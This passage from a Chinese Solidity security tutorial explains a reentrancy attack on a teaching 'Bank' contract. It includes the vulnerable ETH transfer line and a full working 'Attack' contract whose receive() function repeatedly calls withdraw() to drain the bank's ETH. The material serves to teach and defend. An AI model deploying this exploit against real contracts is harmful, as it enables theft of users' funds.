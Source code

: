 ### 攻击合约

重入攻击的一个攻击点就是合约转账`ETH`的地方：转账`ETH`的目标地址如果是合约，会触发对方合约的`fallback`（回退）函数，从而造成循环调用的可能。如果你不了解回退函数，可以阅读[WTF Solidity 极简教程第 19 讲：接收 ETH](https://github.com/AmazingAng/WTFSolidity/blob/main/19_Fallback/readme.md)。`Bank`合约在`withdraw()`函数中存在`ETH`转账：

```
(bool success, ) = msg.sender.call{value: balance}("");
```

假如黑客在攻击合约中的`fallback()`或`receive()`函数中重新调用了`Bank`合约的`withdraw()`函数，就会造成`0xAA`抢银行故事中的循环调用，不断让`Bank`合约转账给攻击者，最终将合约的`ETH`提空。

```solidity
    receive() external payable {
        bank.withdraw();
    }
```

下面我们看下攻击合约，它的逻辑非常简单，就是通过`receive()`回退函数循环调用`Bank`合约的`withdraw()`函数。它有`1`个状态变量`bank`用于记录`Bank`合约地址。它包含`4`个函数：

- 构造函数: 初始化`Bank`合约地址。
- `receive()`: 回调函数，在接收`ETH`时被触发，并再次调用`Bank`合约的`withdraw()`函数，循环提款。
- `attack()`：攻击函数，先`Bank`合约的`deposit()`函数存款，然后调用`withdraw()`发起第一次提款，之后`Bank`合约的`withdraw()`函数和攻击合约的`receive()`函数会循环调用，将`Bank`合约的`ETH`提空。
- `getBalance()`：获取攻击合约里的`ETH`余额。

```solidity
contract Attack {
    Bank public bank; // Bank合约地址

    // 初始化Bank合约地址
    constructor(Bank _bank) {
        bank = _bank;
    }

    // 回调函数，用于重入攻击Bank合约，反复的调用目标的withdraw函数
    receive() external payable {
        if (bank.getBalance() >= 1 ether) {
            bank.withdraw();
        }
    }

    // 攻击函数，调用时 msg.value 设为 1 ether
    function attack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        bank.deposit{value: 1 ether}();
        bank.withdraw();
    }

    // 获取本合约的余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```
